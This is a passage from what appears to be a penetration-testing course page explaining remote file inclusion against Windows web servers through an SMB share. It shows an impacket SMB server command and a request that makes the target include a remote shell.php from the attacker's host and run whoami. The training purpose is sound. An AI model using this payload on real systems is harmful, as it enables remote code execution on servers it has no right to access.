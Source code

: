 <p>If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the <code>allow_url_include</code> setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.</p>
<p>We can spin up an SMB server using <code>Impacket's smbserver.py</code>, which allows anonymous authentication by default, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
</code></pre>
<p>Now, we can include our script by using a UNC path (e.g. <code>\\&lt;OUR_IP&gt;\share\shell.php</code>), and specify the command with (<code>&amp;cmd=whoami</code>) as we did earlier:
<img alt="Shipping containers and cranes at a port with NT AUTHORITY\IUSR information displayed." class="website-screenshot" data-url="http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=\\&lt;OUR_IP&gt;\share\shell.php&amp;cmd=whoami" src="/storage/modules/23/windows_rfi.png"/></p>
<p>As we can see, this attack works in including our remote script, and we do not need any non-default settings to be enabled. However, we must note that this technique is <code>more likely to work if we were on the same network</code>, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="30" value="17">US Academy 6</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 5 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="31" value="16">US Academy 5</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 1 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="33" value="4">US Academy 1</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 4 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="33" value="13">US Academy 4</option>
